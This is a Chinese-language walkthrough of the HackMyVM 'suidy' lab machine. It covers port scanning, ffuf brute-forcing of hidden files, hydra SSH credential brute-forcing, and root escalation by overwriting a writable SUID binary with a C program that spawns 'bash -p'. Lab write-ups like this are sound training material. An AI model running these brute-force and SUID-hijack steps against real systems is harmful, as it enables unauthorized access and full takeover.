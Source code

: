 ```yaml
---
{"dg-publish":true,"tags":["HMV","ffuf","SUID提权","hydra"],"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/5.suidy/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.847+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/5.suidy#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/5.suidy#2. 信息收集\|2. 信息收集]]
	- [[24-渗透/HMV/5.suidy#2.1. 目录扫描\|2.1. 目录扫描]]
- [[24-渗透/HMV/5.suidy#3. 爆破文件\|3. 爆破文件]]
- [[24-渗透/HMV/5.suidy#4. ssh连接\|4. ssh连接]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=suidy
```



```
作者：sml
```


```
难度：⭐️⭐️⭐️⭐️⭐️
```



```
知识点：ffuf  hydra  SUID替换提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.7
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:B1:28:F4 (Oracle VirtualBox virtual NIC)
```
### 2.1. 目录扫描

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.001.png)

没什么东西，只有一个robots.txt

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.002.png)

看下网页源码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.003.png)

看下rotbots.txt

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.004.png)

翻到最下面可以看到有一个目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.005.png)

访问目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.006.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.007.png)

那就是要我们爆破目录，获取到这个.txt文件

下载seclist字典https://github.com/danielmiessler/SecLists

## 3. 爆破文件

利用fuff工具进行爆破

```Bash
ffuf -u http://192.168.9.7/shehatesme/FUZZ.txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
这里爆破出了好多结果

加一个-od参数 输出到result目录

```Bash
ffuf -u http://192.168.9.7/shehatesme/FUZZ.txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -od result
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.008.png)

看一下输出的文件内容格式

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.009.png)

下面这个就是账户密码

我们利用正则表达式将其提取出来

```Bash
tail -q -n 1 \* | sort | uniq | tee yhm.txt
```
然后把斜杠替换成:

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.010.png)

```Bash
hydra爆破
hydra -C ssh.txt  192.168.9.7 ssh
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.011.png)

## 4. ssh连接

```Bash
ssh theuser@192.168.9.7
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.012.png)

\3. SUID替换提权

```Bash
theuser@suidy:/home/suidy$ find / -perm -4000 2>/dev/null
/home/suidy/suidyyyyy
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```
这里有一个suidyyyy 可执行文件

看下这个文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.013.png)

这里说明我们当前用户theuser对这个文件是有读写权限的。而且这个文件被设置了suid 与sgid

那我们将这个文件进行替换即可利用SUID执行任意文件

我们新建一个 power.c

```Bash
#include <stdio.h>
int main() {
        setuid(0);           
        setgid(0);  
        system("/bin/bash -p");
        }
```


```Bash
gcc  power.c -o  suidyyyyy 编译
cp suidyyyyy /home/suidy/suidyyyyy 复制替换
./suidyyyyy 执行提权
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/5.suidy.014.png)



